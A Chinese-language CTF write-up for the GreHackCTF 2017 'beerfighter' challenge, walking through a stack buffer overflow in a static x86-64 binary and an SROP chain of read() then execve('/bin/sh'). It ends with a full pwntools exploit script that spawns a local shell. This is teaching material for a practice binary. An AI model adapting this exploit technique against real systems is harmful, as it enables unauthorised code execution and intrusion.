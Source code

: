 ```yaml
---
layout: post
title: pwn GreHackCTF2017 beerfighter
category: CTF
tags: ctf
keywords: ctf, binary, hack
description:
---
```


- [题目复现](#题目复现)
- [题目解析](#题目解析)
- [漏洞利用](#漏洞利用)
- [参考资料](#参考资料)


## 题目复现
```
$ file game 
game: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, BuildID[sha1]=1f9b11cb913afcbbbf9cb615709b3c62b2fdb5a2, stripped
$ checksec -f game 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FORTIFY  Fortified Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No       0               0       game
```
64 位，静态链接，stripped。

既然是个小游戏，先玩一下，然后发现，进入 City Hall 后，有一个可以输入字符串的地方，然而即使我们什么也不输入，直接回车，在 Leave the town 时也会出现 Segmentation fault：
```
[0] The bar
[1] The City Hall
[2] The dark yard
[3] Leave the town for ever
Type your action number > 1
Welcome Newcomer! I am the mayor of this small town and my role is to register the names of its citizens.
How should I call you?
[0] Tell him your name
[1] Leave
Type your action number > 0
Type your character name here >

...

[0] The bar
[1] The City Hall
[2] The dark yard
[3] Leave the town for ever
Type your action number > 3
By !

Segmentation fault (core dumped)
```


##题目解析
程序大概清楚了，看代码吧，经过一番搜索，发现了一个很有意思的函数：
```
[0x00400d8e]> pdf @ fcn.00400773
/ (fcn) fcn.00400773 15
|   fcn.00400773 ();
|              ; CALL XREF from 0x00400221 (fcn.004001f3)
|              ; CALL XREF from 0x004002b6 (fcn.00400288)
|           0x00400773      4889f8         mov rax, rdi
|           0x00400776      4889f7         mov rdi, rsi
|           0x00400779      4889d6         mov rsi, rdx
|           0x0040077c      4889ca         mov rdx, rcx
|           0x0040077f      0f05           syscall
\           0x00400781      c3             ret
```
`syscall;ret`，你想到了什么，对，就是前面讲的 SROP。

其实前面的输入一个字符串，程序也是通过 syscall 来读入的，从函数 `0x004004b8` 开始仔细跟踪代码后就会知道，系统调用为 `read()`。

```
gdb-peda$ pattern_offset $ebp
1849771374 found at offset: 1040
```
缓冲区还挺大的，`1040+8=1048`。


## 漏洞利用
好，现在思路已经清晰了，先利用缓冲区溢出漏洞，用 `syscall;ret` 地址覆盖返回地址，通过 frame\_1 调用 `read()` 读入 frame_2 到 `.data` 段（这个程序没有`.bss`，而且`.data`可写），然后将栈转移过去，调用 `execve()` 执行“/bin/sh”，从而拿到 shell。

构造 sigreturn：
```
$ ropgadget --binary game --only "pop|ret"
...
0x00000000004007b2 : pop rax ; ret
```
```python
# sigreturn syscall
sigreturn  = p64(pop_rax_addr)
sigreturn += p64(constants.SYS_rt_sigreturn)    # 0xf
sigreturn += p64(syscall_addr)
```

然后是 frame_1，通过设定 `frame_1.rsp = base_addr` 来转移栈：
```python
# frame_1: read frame_2 to .data
frame_1 = SigreturnFrame()
frame_1.rax = constants.SYS_read
frame_1.rdi = constants.STDIN_FILENO
frame_1.rsi = data_addr
frame_1.rdx = len(str(frame_2))
frame_1.rsp = base_addr             # stack pivot
frame_1.rip = syscall_addr
```

frame_2 执行 `execve()`：
```python
# frame_2: execve to get shell
frame_2 = SigreturnFrame()
frame_2.rax = constants.SYS_execve
frame_2.rdi = data_addr
frame_2.rsi = 0
frame_2.rdx = 0
frame_2.rip = syscall_addr
```

Bingo!!!
```
$ python2 exp.py 
[*] '/home/firmy/Desktop/game'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './game': pid 12975
[*] Switching to interactive mode
By !

$ whoami
firmy
```

#### exploit
完整的 exp 如下：
```python
from pwn import *

elf = ELF('./game')
io = process('./game')
io.recvuntil("> ")
io.sendline("1")
io.recvuntil("> ")
io.sendline("0")
io.recvuntil("> ")

context.clear()
context.arch = "amd64"

data_addr = elf.get_section_by_name('.data').header.sh_addr + 0x10
base_addr = data_addr + 0x8   # new stack address

# useful gadget
pop_rax_addr = 0x00000000004007b2   # pop rax ; ret
syscall_addr = 0x000000000040077f   # syscall ;

# sigreturn syscall
sigreturn  = p64(pop_rax_addr)
sigreturn += p64(constants.SYS_rt_sigreturn)    # 0xf
sigreturn += p64(syscall_addr)

# frame_2: execve to get shell
frame_2 = SigreturnFrame()
frame_2.rax = constants.SYS_execve
frame_2.rdi = data_addr
frame_2.rsi = 0
frame_2.rdx = 0
frame_2.rip = syscall_addr

# frame_1: read frame_2 to .data
frame_1 = SigreturnFrame()
frame_1.rax = constants.SYS_read
frame_1.rdi = constants.STDIN_FILENO
frame_1.rsi = data_addr
frame_1.rdx = len(str(frame_2))
frame_1.rsp = base_addr             # stack pivot
frame_1.rip = syscall_addr

payload_1  = "A" * 1048
payload_1 += sigreturn
payload_1 += str(frame_1)

io.sendline(payload_1)
io.recvuntil("> ")
io.sendline("3")

payload_2  = "/bin/sh\x00"
payload_2 += sigreturn
payload_2 += str(frame_2)

io.sendline(payload_2)
io.interactive()
```


## 参考资料
https://ctftime.org/task/4939

